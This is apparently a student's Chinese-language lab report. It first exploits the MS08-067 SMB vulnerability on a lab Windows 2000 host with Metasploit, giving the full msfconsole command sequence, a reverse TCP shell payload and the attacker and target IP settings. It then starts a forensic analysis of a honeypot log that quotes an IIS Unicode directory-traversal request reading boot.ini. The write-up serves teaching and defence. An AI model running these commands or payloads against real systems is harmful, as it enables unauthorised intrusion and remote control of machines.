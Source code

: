   > 注：该攻击必须保证双方在同一网段，且可以ping通。

- kali中输入`msfconsole`启动`kali`里面的`msfconsole`；

- 选择渗透攻击模块

  - 输入`search ms08_067`查看漏洞`ms08_067`的详细信息，如图：

    ![image-20200414215312419](F:\liangx\研一课程\研一下\网络攻防\作业\7windows操作系统安全攻防\img\2-1-1.png)

  - 输入`use exploit/windows/smb/ms08_067_netapi`选择针对MS08_067漏洞的渗透攻击模块。

- 选择攻击负载模块

  - 输入`show payloads`列举出所有适用的负载模块，如图所示，然后执行`set payload generic/shell_reverse_tcp`选择你要用的攻击负载模块。这里我选择了3号（TCP反转）。

    ![image-20200414215733110](F:\liangx\研一课程\研一下\网络攻防\作业\7windows操作系统安全攻防\img\2-1-2.png)

- 配置参数

  - 使用`show options` 查看需要设置的参数，如图，可见需要配置靶机和攻击机IP：

    ![image-20200414220056507](F:\liangx\研一课程\研一下\网络攻防\作业\7windows操作系统安全攻防\img\2-1-3.png)

  - 执行`set LHOST 192.168.200.4`设置攻击机为kali，`set RHOST 192.168.200.124`设置靶机为win2k，再`show options`查看是否配置成功，如图：

    ![image-20200414220305275](F:\liangx\研一课程\研一下\网络攻防\作业\7windows操作系统安全攻防\img\2-1-4.png)

  - 这里可能会用到`show targets`、`set target [number]配置靶机的操作系统及版本，我这里默认选择的是0号（自动分配），所以不再配置。

- 开始渗透攻击

  - 输入`exploit`开始攻击。

  - 输入`ipconfig`查看靶机IP，与真实IP一致，验证了本次渗透攻击已经成功。如图：

    ![image-20200414221215598](F:\liangx\研一课程\研一下\网络攻防\作业\7windows操作系统安全攻防\img\2-1-5.png)

- 小尝试

  感觉渗透攻击很有意思，于是想到是否可以攻击一下自己主机，设置网关使IP处于同一网段后，此时是可以ping通的，但执行上述过程不能成功，target连接失败。猜测可能是防火墙的防护，于是我关闭了防火墙，但仍旧同样的问题失败。猜测肯定是主机设置了一系列防范措施，幸好攻击失败，不然可就太危险了。

### 2.2 取证分析实践：解码一次成功的NT系统破解攻击

来自213.116.251.162的攻击者成功攻陷了一台由rfp部署的蜜罐主机172.16.1.106（主机名为：lab.wiretrip.net），这是一次非常典型的针对NT系统的攻击，回答下面的问题：

------

1. **攻击者使用了什么破解工具进行攻击？**

   - 首先用wireshark打开snort-0204@0117.log文件，可以看到该文件含有大量http数据包，猜测是针对HTTP发起的攻击，可具体是什么漏洞的攻击呢？知识浅薄的我只能通过大致扫一下这些HTTP包，对不熟悉的进行百度。我发现了`GET /guest/default.asp/..%C0%AF../..%C0%AF../..%C0%AF../boot.ini HTTP/1.1` 这么一行怪异的字符串，搜到`%C0%AF`是一种百分号编码格式，被转换成“/”或“\”字符，这是IIS 4.0/5.0中存在的Unicode字符解码漏洞。`boot.ini`可引导电脑中多系统，并设置启动菜单。因此，这句话是攻击者利用Unicode漏洞打开了系统启动文件`boot.ini`。
